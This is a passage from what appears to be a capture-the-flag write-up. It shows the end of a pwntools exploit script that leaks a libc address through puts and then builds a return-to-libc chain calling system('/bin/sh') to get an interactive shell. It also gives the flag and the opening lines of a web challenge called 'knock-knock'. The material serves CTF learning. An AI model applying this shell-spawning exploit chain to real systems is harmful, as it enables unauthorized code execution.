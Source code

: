 ```python
    elf.plt.puts,
    elf.symbols.main
  ]
})

# Send the payload
print(io.recv())
print(payload)
io.send(payload)

repeated_main = io.recvuntil(b':')
io.recvline()
io.recvline()
address = io.recvline().strip()

got_puts = unpack(address.ljust(8, b"\x00"))
info("leaked got_puts: %#x", got_puts)

libc_base = got_puts - libc.symbols['puts']
info("libc_base: %#x", libc_base)

# Add offsets to get system() and "/bin/sh" addresses
system_addr = libc_base + libc.symbols['system']
info("system_addr: %#x", system_addr)
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
info("bin_sh: %#x", bin_sh)

payload = flat({
  offset: [
    pop_rdi,
    bin_sh,
    system_addr
  ]
})

io.send(payload)
io.interactive()
```



**Flag:** `dice{0ur_f16h7_70_b347_p3rf3c7_blu3_5h4ll_c0n71nu3}`



### knock-knock (web, 107pts)

> Knock knock? Who's there? Another pastebin!!
>
> [knock-knock.mc.ax](https://knock-knock.mc.ax/)

We are provided with two challenge files.

**index.js**

